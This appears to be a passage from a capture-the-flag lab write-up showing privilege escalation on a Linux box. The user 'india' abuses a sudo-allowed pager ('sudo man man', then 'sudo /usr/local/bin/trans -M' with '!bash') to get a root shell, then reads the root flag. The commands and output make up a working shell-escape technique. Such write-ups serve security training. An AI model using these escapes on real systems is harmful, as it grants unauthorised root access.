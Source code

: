[**#Sudo**]

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```
sudo man man
!/bin/sh
```

![Victim: india](https://img.shields.io/badge/Victim-india-64b5f6?logo=linux&logoColor=white)

`sudo /usr/local/bin/trans -M`

```
!bash
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) groups=0(root) ←
```

`cd /root`

`ls -alps`:
```
total 24
4 drwx------  3 root root 4096 may 11  2022 ./
4 drwxr-xr-x 18 root root 4096 may 11  2022 ../
0 lrwxrwxrwx  1 root root    9 may 11  2022 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  571 abr 10  2021 .bashrc
4 drwxr-xr-x  3 root root 4096 may 11  2022 .local/
4 -rw-r--r--  1 root root  161 jul  9  2019 .profile
4 -rw-------  1 root root   20 may 11  2022 root.txt ←
```

`cat ./root.txt`:
```
h87M5364V2343ubvgfy ←
```

<🔄 Alternative Step.>

![Victim: india](https://img.shields.io/badge/Victim-india-64b5f6?logo=linux&logoColor=white)

`/usr/local/bin/trans --help`:
```
[...]

Networking options:
    -x HOST:PORT, -proxy HOST:PORT
        Use HTTP proxy on given port. ←
    -u STRING, -user-agent STRING
        Specify the User-Agent to identify as.
    -4, -ipv4, -inet4-only
        Connect only to IPv4 addresses.
    -6, -ipv6, -inet6-only
        Connect only to IPv6 addresses.
```
